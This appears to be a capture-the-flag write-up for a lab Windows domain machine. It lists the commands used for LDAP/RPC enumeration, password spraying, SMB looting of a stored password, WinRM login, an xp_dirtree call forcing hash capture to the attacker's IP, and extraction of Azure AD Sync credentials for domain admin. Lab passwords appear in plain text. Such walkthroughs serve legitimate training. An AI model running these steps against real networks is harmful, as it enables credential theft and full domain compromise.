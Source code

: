 #Pwned! 
```IP

```
# Enumeration
I tried bruteforcing kerberos usernames and smb enumeration to no avail. Let's try with LDAP:

## LDAP
```
ldapsearch -H ldap://10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL"
```
We retrieve some users:
```
smorgan
roleary
dgalanos
mhope
svc-netapp
svc-bexec
svc-ata
SABatchJobs
```
Further enumeration with this usernames as passwords gives us a positive in smb:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222110406.png?raw=true)
But it doesn't retrieve any share.
## RPC
With RPC we get similar results to LDAP
```
rpcclient -U '' 10.10.10.172 -N
enumdomusers
querydispinfo
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222110713.png?raw=true)
But it displays a extra user called `AAD_987d7f2f57d2` with description `Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTVERDE.`
We add it to our user list
## SMB
With all our usernames we can list again smb, and we will get SABatchJobs as the only hit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222114916.png?raw=true)
Lets enumerate with:
```
smbclient //10.10.10.172/users$ --password='SABatchJobs' -U 'SABatchJobs' -c 'recurse;ls'
```
We will see an Azure.xml file that we can download and open, and will contain a password:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115238.png?raw=true)
```
4n0therD4y@n0th3r$
```
Executing
```
nxc winrm 10.10.10.172 -u users.txt  -p '4n0therD4y@n0th3r$'
```
We get mhope user pwned!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115411.png?raw=true)
```
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```
# Exploitation

# PrivEsc

## Manual
```

```
Interesting software
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222115731.png?raw=true)
Let's try accessing mssql
```
sqlcmd -q 'select @@version;'
```
It seems like we have query execution:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222124743.png?raw=true)
We try xp_cmdshell command execution but we don't have permissions. With xp_dirtree and responder we get a hash though:
```
sqlcmd -q "xp_dirtree '\\10.10.14.17\test';"
```
It seems like we get a hash but it doesn't crack. So the next thing to try would be to enumerate tables.
There is a ADSync database that looks suspicious, but manually enumerating it is exhausting. If we google `ADSync mssql database` we will learn that it is a database part of the Microsoft Entra Could Sync, a sync client for Azure which helps users to set up and manage their sync preferences online. Including Password syncronization.
https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-install-existing-database
https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2
And searching how to pentest this we get to the following blog: 
https://blog.xpnsec.com/azuread-connect-for-redteam/
Which suggests us to use `mms_management_agent` table to get some encrypted passwords
```
sqlcmd -q "USE ADSync;SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222132514.png?raw=true)
When running the entire script located in the latter blog, we get a WinRM crash. So if we run each powershell command separately, we see that it is not connecting correctly to the MSSQL server:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163115.png?raw=true)
A quick google search provides us with some alternative sintax to do the connection:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163305.png?raw=true)
So now it is time to edit our script and transfer it once again to the target machine:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163405.png?raw=true)
And finally we get the decrypted password!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163539.png?raw=true)
```
d0m@in4dminyeah!
```
And we get root:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241222163651.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement

